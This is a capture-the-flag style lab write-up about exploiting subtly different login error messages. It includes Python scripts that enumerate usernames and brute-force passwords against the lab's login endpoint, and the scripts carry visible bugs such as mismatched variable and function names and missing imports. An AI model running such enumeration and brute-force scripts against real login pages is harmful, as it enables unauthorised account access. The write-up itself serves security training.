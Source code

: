 # Lab-2: Username enumeration via subtly different responses
> Raj Pastagiya | 16/11/2023

## Problem Statement

> This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, the usernames list and password list is given. 
> To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

### Summary
- The issue with authentication lies here in different responses which are subtly different for valid usernames and passwords.
	- The web-application gives "Invalid username or password." as response for the users that are not part of the web-application, which enables enumerating valid usernames
	- The web-application gives "Invalid username or password" as response for valid users and wrong password, which enables brute-forcing passwords for valid usernames
		- **NOTICE that "." is not there in the invalid password response**
#### Looking at the site's response on Login Page
- Giving a potential username:password on the login page as "admin:admin" gives us response shown in below screenshot, which indicates that if we are not a valid user or if we have not supplied valid password then "Invalid username or password." will come as response message
![Invalid Username as Response](./images/01-invalid-user.png)

- Based on this, let's create a simple python script which will use the list of usernames given to us and see if we find any usernames for which this message doesn't come. Thje **stress** here should be **_EXACT SAME RESPONSE_**
	- Here the login request is POST with request payload as:
```
username: "admin"
password: "admin"
```
- We will use "requests" module to send HTTP requests, and then if we don't find "Invalid Username" in response text message then we can be sure that the username entered there might be a valid user. The script looks like below:
```python
#!/usr/bin/python3
#
#
# Imports here

# List of usernames to enumerate.
users = list()

# Read users.lst and store it in a list to be used further
with open("./users.lst", "rt") as userslst:
	for user in userslst.readlines():
		users.append(user.strip())

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

validUsers = list()

for user in users:

	print("[*] Trying username", user, sep=": ")
	payload["username"] = user # change the placeholder os username field to the user from users list
	# Send the HTTP POST request to the url
	response = requests.post(url, data=payload, verify=False)
	# check if the "Invalid username" is in the response, if not then valid username
	if "Invalid username or password." not in response.text:
		print("\t[+] Found valid username", user, sep=": ")
		validUSers.append(user)

print("\n\n[*] Valid Users", validUsers, sep=": ")
```

- Fortunately above script will give us a valid username for which it if invalid password is given then a different response message is given.
- Now if we try with the username found by the script, we see a different message saying "Invalid username or password" like shown in below screenshot:
![](./images/02-invalid-password.png)

- Here "." is missing from the response, which is very subtle and will provide opportunity for us to bruteforce the password
- Now we can append to above script and use the found usernames to bruteforce the password based on password list we were given.
- In below script to make the script more easier to understand I have made functions for every requirements. Also the "user_enum()" function is same as the script shared above
```python
#!/usr/bin/python3
#
#
# Imports here

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

# List of usernames to enumerate.
def user_enum():
	# user enumeration script here
	
	return validUsers

def enum_password(validUsers):
	# List of passwords to enumerate.
	passwords = list()

	# Read passwords.lst and store it in a list to be used further
	with open("./passwords.lst", "rt") as passlst:
		for password in passlst.readlines():
			 passwords.append(password.strip())

for user in validUsers:
	payload["username"] = user # change the placeholder of username field to the user from users list
	for password in passwords:
		payload["password"] = password # change the placeholder of password field to the password from passwords list
		# Send the HTTP POST request to the url
		 response = requests.post(url, data=payload, verify=False)
		# check if the "Invalid password" is in the response, if not then valid password
		if "Invalid username or password" not in response.text:
			print(f"\t[+] Found valid username:password pair {user}:{password}")
			break

enum_password(enum_users())
```

#### \[+] The script is available at [brute-force.py](./script/brute-force.py)





